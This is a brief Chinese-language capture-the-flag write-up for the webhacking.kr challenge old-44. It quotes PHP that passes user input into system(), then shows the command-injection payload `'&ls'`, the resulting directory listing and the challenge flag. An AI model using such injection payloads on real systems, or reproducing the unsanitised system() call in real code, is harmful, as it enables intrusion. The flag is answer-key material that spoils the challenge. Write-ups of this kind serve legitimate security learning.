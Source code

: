 # old-44_500

* 這一題直接看 source code
    ```php=
    if($_POST['id']){
        $id = $_POST['id'];
        $id = substr($id,0,5);
        system("echo 'hello! {$id}'"); // You just need to execute ls
     }
    ```
* 所以很明顯是 command injection 不過有限制五個字
* 稍微試了一下，我最後的 payload 是 `'&ls'`
* 可以拿到 `hello! flag_29cbb98dafb4e471117fec409148e9386753569e index.php`
* 接下來訪問 `http://webhacking.kr:10005/flag_29cbb98dafb4e471117fec409148e9386753569e` 就拿到 flag 拉
* flag : FLAG{y2u.be/sW3RT0tF020}
